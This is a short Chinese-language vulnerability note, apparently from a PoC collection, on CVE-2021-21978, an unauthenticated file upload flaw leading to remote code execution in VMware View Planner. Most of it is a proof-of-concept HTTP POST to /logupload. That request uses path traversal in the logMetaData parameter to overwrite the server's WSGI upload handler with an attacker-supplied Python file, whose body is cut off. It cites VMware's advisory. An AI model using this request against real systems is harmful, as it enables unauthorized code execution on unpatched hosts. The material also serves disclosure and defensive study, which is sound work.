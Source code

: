 # VMware View Planner 未授权RCE (CVE-2021-21978)

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

**PoC:**

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=---WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import jsom

....
```

![](images/16158593231899.jpg)


ref:

* https://www.vmware.com/security/advisories/VMSA-2021-0003.html
* https://twitter.com/osama_hroot/status/1367258907601698816
